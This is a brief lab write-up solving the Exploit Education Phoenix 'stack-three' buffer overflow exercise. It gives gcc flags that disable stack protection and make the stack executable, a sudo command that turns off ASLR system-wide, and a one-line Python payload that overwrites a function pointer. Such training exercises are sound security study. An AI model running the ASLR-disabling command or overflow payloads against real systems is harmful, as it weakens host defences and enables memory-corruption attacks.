 # Exploit Education Phoenix

## Stack-three.c
### x32
### Compile and disable ASLR
```
gcc -m32 -fno-stack-protector -z execstack -o stack-three-32 stack-three.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c 'print "A"*64 + "\x56\x55\x55\xfd"[::-1]' | ./stack-three-32
```
